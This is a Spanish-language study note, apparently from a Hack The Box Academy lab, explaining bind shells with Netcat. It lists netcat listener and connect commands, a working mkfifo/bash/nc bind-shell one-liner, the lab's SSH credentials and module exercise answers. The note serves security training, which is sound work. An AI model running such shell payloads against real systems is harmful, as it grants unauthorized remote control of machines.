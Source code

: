 
En muchos casos, trabajaremos para establecer una shell en un sistema dentro de una red local o remota. Esto significa que utilizaremos la aplicación de emulador de terminal en nuestro equipo de ataque para controlar el sistema remoto a través de su shell. Esto se hace generalmente mediante el uso de una shell de enlace (bind shell) o de una shell inversa (reverse shell).![[Pasted image 20241107112403.png]]
Como se muestra en la imagen, nos conectaríamos directamente a la dirección IP y al puerto que está escuchando en el objetivo. Existen varios desafíos asociados con obtener una shell de esta manera. Algunos de ellos son:

- Debe haber un "listener" ya iniciado en el objetivo.
- Si no hay un "listener" iniciado, necesitamos encontrar una manera de iniciarlo.
- Los administradores suelen configurar reglas de firewall de entrada estrictas y NAT (con PAT) en el borde de la red (de cara al público), por lo que ya necesitaríamos estar en la red interna.
- Los firewalls de los sistemas operativos (en Windows y Linux) probablemente bloquearán la mayoría de las conexiones entrantes que no estén asociadas con aplicaciones de red confiables.

Los firewalls de los sistemas operativos pueden ser un problema al establecer una shell, ya que necesitamos considerar direcciones IP, puertos y la herramienta utilizada para lograr una conexión exitosa. En el ejemplo anterior, la aplicación utilizada para iniciar el "listener" se llama GNU Netcat. Netcat (nc) es nuestra "navaja suiza" porque puede funcionar sobre TCP, UDP y sockets Unix. Puede usar IPv4 e IPv6, abrir y escuchar en sockets, operar como proxy e incluso manejar entrada y salida de texto. Usaríamos nc en el equipo de ataque como nuestro cliente, y el objetivo sería el servidor.


### practiquemos netcat

accedemos a la Maquina objetivo con  SSH to 10.129.201.134 (ACADEMY-SHELLS-WEBSHELLS) with user "htb-student" and password "HTB_@cademy_stdnt!"

```
ssh htb-student@10.129.201.134    
```
abrimos un puerto de escucha con:
```
nc -lvnp 7777
```

![[Pasted image 20241107113616.png]]
nos conectamos 
```
nc -nv 10.129.201.134 7777   
```


![[Pasted image 20241107114010.png]]

y podemos observar como en la maquina objetivo llega los comandos lanzados desde la maquina atacante
![[Pasted image 20241107113934.png]]

Es importante notar que esto *no es una shell* propiamente dicha. Es solo una sesión TCP de Netcat que hemos establecido. Podemos ver su funcionalidad al escribir un mensaje simple en el lado del cliente y verlo recibido en el lado del servidor.

### Estableciendo una Bind Shell Básica con Netcat

Hemos mostrado que podemos usar Netcat para enviar texto entre el cliente y el servidor, pero esto no es una bind shell completa, ya que no podemos interactuar con el sistema operativo y el sistema de archivos. Solo podemos pasar texto a través de la tubería configurada por Netcat. Utilicemos Netcat para establecer una shell real.

En el lado del servidor, especificaremos el directorio, la shell, el "listener", trabajaremos con algunas tuberías, y redireccionaremos entrada y salida para asegurarnos de que una shell se sirva al sistema cuando el cliente intente conectarse.

Los comandos anteriores son nuestro payload, que entregamos manualmente. Observaremos que los comandos y el código en nuestros payloads diferirán dependiendo del sistema operativo al que lo estamos entregando.

```
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -l 10.129.201.134 7777 > /tmp/f
```
![[Pasted image 20241107114529.png]]


Vemos como se estableció el puerto de escucha para mandar una shell y si nos conectamos nuevamente como en el paso anterior tenemos acceso al sistema de shell del usuario
![[Pasted image 20241107114701.png]]


Como se mencionó anteriormente, también es importante recordar que la bind shell es más fácil de defender. Dado que la conexión es entrante, es más probable que sea detectada y bloqueada por los firewalls, incluso si se utilizan puertos estándar al iniciar un "listener". Existen formas de evitar esto utilizando una shell inversa, que discutiremos en la siguiente sección.



#### ejercicio del modulo

Target(s): 10.129.201.134 (ACADEMY-SHELLS-WEBSHELLS)   


 SSH to 10.129.201.134 (ACADEMY-SHELLS-WEBSHELLS) with user "htb-student" and password "HTB_@cademy_stdnt!"

+ 1  Des is able to issue the command nc -lvnp 443 on a Linux target. What port will she need to connect to from her attack box to successfully establish a shell session?
 R// 443

* 2 SSH to the target, create a bind shell, then use netcat to connect to the target using the bind shell you set up. When you have completed the exercise, submit the contents of the flag.txt file located at /customscripts.
R// establecemos el puerto de escucha como admin
![[Pasted image 20241107115556.png]]

![[Pasted image 20241107115629.png]]

![[Pasted image 20241107140124.png]]